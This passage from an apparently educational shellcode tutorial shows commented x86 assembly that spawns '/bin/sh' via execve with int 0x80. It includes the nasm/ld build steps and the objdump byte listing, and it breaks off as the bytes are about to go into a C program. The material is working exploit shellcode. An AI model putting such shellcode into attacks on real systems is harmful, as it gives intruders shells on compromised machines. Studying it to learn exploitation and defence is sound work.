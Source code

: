    ;by execve().
    push eax
    push eax
    ;last parameter for execve (note this is actually the first one required
    ;but this is reverse order.)
    push esi
    ;Here's the actual syscall value for execve() we are moving it into
    ;al. If we were to put that value into eax we would get NULLs into
    ;our shellcode which is bad.
    mov al, 0x3b 
    ;don't ask me why this is here, but it is required to have working shellcode
    push eax 
    ;This is what will actually get the kernel involved and perform
    ;the work we have prepared for it above. note that this is interrupt 80h
    int 0x80
    _callshell:
    ;this takes us back up to the main portion of our code. The reason for
    ;this detour has been stated above for relative addresses.
    call _shellcode
    ;our actual command string that will be fed into execve()
    db '/bin/sh'

Now we assemble that file as so:

    bash$ nasm -f elf mynewshell.asm
    bash$ ld -o mynewshell mynewshell.o

Then we fire up objdump:

    bash$ objdump -d mynewshell
    mynewshell: file format elf32-i386
    Disassembly of section .text:
    08048080 <_start>:
    8048080: eb 0e jmp 8048090 <_callshell>
    
    08048082 <_shellcode>:
    8048082: 5e pop %esi
    8048083: 31 c0 xor %eax,%eax
    8048085: 88 46 07 mov %al,0x7(%esi)
    8048088: 50 push %eax
    8048089: 50 push %eax
    804808a: 56 push %esi
    804808b: b0 3b mov $0x3b,%al
    804808d: 50 push %eax
    804808e: cd 80 int $0x80
    08048090 <_callshell>:
    8048090: e8 ed ff ff ff call 8048082 <_shellcode>
    8048095: 2f das
    8048096: 62 69 6e bound %ebp,0x6e(%ecx)
    8048099: 2f das
    804809a: 73 68 jae 8048104 <_callshell+0x74>

Have a look at all that beautiful shellcode. Now the tedious job of putting it into a usable format and right into a C program so that we can actually execute it.
